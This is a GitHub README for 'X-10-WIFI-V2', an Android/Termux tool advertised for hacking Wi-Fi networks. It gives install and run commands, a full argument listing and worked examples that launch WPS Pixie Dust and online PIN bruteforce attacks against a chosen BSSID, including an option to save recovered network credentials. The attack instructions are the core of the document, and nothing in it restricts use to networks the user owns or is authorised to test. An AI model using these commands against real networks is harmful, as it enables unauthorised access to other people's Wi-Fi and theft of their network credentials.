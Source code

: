### X-10-WIFI-V2

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&color=35F700&background=3C8BFF00&random=false&width=435&lines=Thanks+for+use+my+command+;place+don't+forged+start+;Im+ARIF+hi;Facebook%3A+Arifmoodz" alt="Typing SVG" /></a>

[![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&random=false&width=435&lines=im-ARIF-thanks-for-my-cmd-use)](https://git.io/typing-svg)

### Hello, Welcome .. 
Hack Wifi ..Using  *X-10-WIFI-V2* by Termux/Android, ARIF-😫!!
<br><br>
![devoleper](https://i.postimg.cc/6Q0XPjdt/IMG-20240404-202439-804.jpg)
<br><br>
 

### HACK WIFI
<p align="center"><img src="https://user-images.githubusercontent.com/75953873/115979290-66309900-a55b-11eb-8259-4b125efc42bb.png"></p>

[![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/downloads/release/python-2714/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux%20%7C%20Android-yellowgreen.svg)](https://termux.com/)


#### Manually
**Installing requirements**
```console
pkg update && pkg upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw openssl && termux-setup-storage
 ```
**run farhan hack py**
 ```console
git clone --depth 1 https://github.com/Versionx10/X-10-WIFI-V2
 ```

#### Running fast command 😪?
 ```console
sudo X-10-WIFI-V2/X-10-WIFI-V2.py -i wlan0 -K 
 ```


 #### copy to past bro 
 <a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&size=28&pause=1000&color=FF0202&background=000000&multiline=true&random=false&width=435&lines=2Nd+command+%F0%9F%98%81%3F" alt="Typing SVG" /></a>
 ```console
 sudo python X-10-WIFI-V2/X-10-WIFI-V2.py -i wlan0 -K 
 ```



# Overview
**X-10-WIFI-V2** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack);
 - integrated [3WiFi offline WPS PIN generator](https://3wifi.stascorp.com/wpspin);
 - [online WPS bruteforce](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf);
 - Wi-Fi scanner with highlighting based on iw;
# Requirements
 - Python 3.6 and above;
 - [Wpa supplicant](https://www.w1.fi/wpa_supplicant/);
 - [Pixiewps](https://github.com/wiire-a/pixiewps);
 - [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw).


## [Termux](https://termux.com/)
Please note that root access is required.  


### Hack WIfi Using Termux! (Requires Root)

# Usage
```
 X-10-WIFI-V2.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```
#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**


## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
cd X-10-WIFI-V2 && sudo python3 X-10-WIFI-V2.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running X-10-WIFI-V2 with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running X-10-WIFI-V2 with the `--mtk-wifi` flag to initialize Wi-Fi device driver.

## CONNECT WITH US :


<a href="https://github.com/Versionx10"><img title="Github" src="https://img.shields.io/badge/VERSION X-10-brightgreen?style=for-the-badge&logo=github"></a>

[![Instagram](https://img.shields.io/badge/FACEBOOK-FOLLOW-red?style=for-the-badge&logo=facebook)](https://www.facebook.com/Arifmoodz)
[![Instagram](https://img.shields.io/badge/WHATSAPP-CHAT-red?style=for-the-badge&logo=whatsapp)](https://wa.me/+8801666666666)
[![Instagram](https://img.shields.io/badge/INSTAGRAM-FOLLOW-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/nai)
[![Instagram](https://img.shields.io/badge/WEBSITE-VISIT-yellow?style=for-the-badge&logo=blogger)](https://versionx10.co)
[![Instagram](https://img.shields.io/badge/TELEGRAM-CHANNEL-red?style=for-the-badge&logo=telegram)](https://t.me/Versionx10)

